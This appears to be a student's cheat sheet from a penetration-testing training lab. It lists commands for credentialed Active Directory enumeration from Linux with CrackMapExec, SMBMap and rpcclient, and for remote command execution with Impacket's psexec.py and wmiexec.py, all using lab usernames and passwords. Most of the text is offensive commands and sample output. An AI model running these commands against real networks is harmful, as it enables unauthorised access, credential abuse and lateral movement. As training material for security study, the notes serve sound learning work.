 # Credentialed Enumeration - from Linux

## CrackMapExec

Domain User Enumeration :
sudo crackmapexec smb $TARGET -u forend -p Klmcargo2 --users

Domain Group Enumeration :
sudo crackmapexec smb $TARGET -u forend -p Klmcargo2 --groups

Logged On Users :
sudo crackmapexec smb $TARGET -u forend -p Klmcargo2 --loggedon-users
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab_adm                   logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc_qualys                logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon_server: ACADEMY-EA-DC01

Share Enumeration - Domain Controller :
sudo crackmapexec smb $TARGET -u forend -p Klmcargo2 --shares

Spider_plus :
sudo crackmapexec smb $TARGET -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
head -n 10 /tmp/cme_spider_plus/$TARGET.json

## SMBMap

SMBMap To Check Access :
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H $TARGET

Recursive List Of All Directories :
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H $TARGET -R 'Department Shares'

## rpcclient

rpcclient -U "" -N $TARGET
--> Users enumeration
rpcclient $> enumdomusers
rpcclient $> queryuser <RID>
rpcclient $> querygroup <group_rid>

## Impacket Toolkit

To connect to a host with psexec.py :
psexec.py inlanefreight.local/wley:'transporter@4'@$TARGET  

Wmiexec.py utilizes a semi-interactive shell where commands are executed through WMI :
wmiexec.py inlanefreight.local/wley:'transporter@4'@$TARGET  
-> each command issued will execute a new cmd.exe from WMI

